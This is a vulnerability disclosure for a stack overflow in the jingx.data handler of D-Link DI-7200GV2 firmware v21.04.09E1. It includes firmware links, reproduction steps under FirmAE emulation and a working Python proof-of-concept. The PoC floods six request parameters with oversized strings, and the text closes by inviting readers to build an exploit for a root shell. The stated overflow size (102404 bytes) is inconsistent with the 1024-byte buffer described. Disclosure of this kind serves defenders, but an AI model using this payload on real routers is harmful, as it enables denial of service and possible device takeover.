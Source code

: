 # Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameters en,fx,ip,type,outdev and indev in the jingx.data function.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
Parm is a variable that can be controlled by the user. The program uses sprintf to copy parm to v9, and v9 is a variable on the stack with a space of 1024 bytes. If en parameter exceeding 102404 bytes are input, the stack may overflow.
![Alt text](1.png)

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.  
![Alt text](3.png)
Then,we login in to 192.168.0.1.  
![Alt text](4.png) 
Finally, we send the following poc:  
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/jingx.data"

params = {
    "en": "a"*0x1400,
    "ip": "a"*0x1400,
    "type": "a"*0x1400,
    "fx": "a"*0x1400,
    "outdev": "a"*0x1400,
    "indev": "a"*0x1400
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

![Alt text](5.png)

And you can write your own exp to get the root shell.